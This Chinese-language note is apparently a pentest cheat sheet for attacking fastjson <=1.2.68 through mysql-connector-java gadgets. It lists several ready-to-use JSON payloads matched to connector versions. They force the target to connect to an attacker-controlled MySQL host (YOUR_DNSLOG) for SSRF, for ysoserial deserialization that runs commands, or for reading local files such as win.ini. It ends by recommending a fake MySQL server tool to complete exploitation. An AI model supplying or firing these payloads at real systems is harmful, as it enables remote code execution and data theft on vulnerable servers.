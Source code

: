   
  
fastjson<=1.2.68，mysql-connector-java-5.1.1-5.1.49可SSRF 5.1.11至5.1.48可反序列化   
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 3306,  "info": {    "user": "yso_xxx",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
fastjson<=1.2.68，mysql-connector-java-6.0.2-6.0.3可反序列化  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",  "proxy": {    "connectionString": {      "url": "jdbc:mysql://YOUR_DNSLOG:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_xxx_calc"    }  }}
```  
  
fastjson<=1.2.68，mysql-connector-java-8.0.19可反序列化，>8.0.19可SSRF  
  
```
{    "@type": "java.lang.AutoCloseable",    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",    "proxy": {        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",        "connectionUrl": {            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",            "masters": [{                "host": ""            }],            "slaves": [],            "properties": {                "host": "YOUR DNSLOG",                "user": "yso_xxx_calc",                "dbname": "dbname",                "password": "pass",                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",                "autoDeserialize": "true"            }        }    }}
```  
```
{"@type": "java.lang.AutoCloseable","@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",  "proxy": {    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",    "connectionUrl": {      "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",      "masters": [        {          "host": ""        }      ],      "properties": {        "allowUrlInlocalInfile": "true",        "allowLoadLocalInfile": "true",        "autoDeserialize": "true",        "dbname": "dbname",        "host": "YOUR_DNSLOG",        "password": "pass",        "port": "7777",        "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",        "user": "win_ini"      },      "slaves": []    }  }}
```  
## 反序列化利用  
  
  
在上面探测中，这个payload成功触发dnslog  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 3306,  "info": {    "user": "yso_xxx",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
既然触发了DNSLOG，那么接下来就可以搭建一个利用Mysql服务了，用到了下面这个项目，根据使用说明书进行使用  
  
  
python<3.8用这个https://github.com/fnmsd/MySQL_Fake_Server  
  
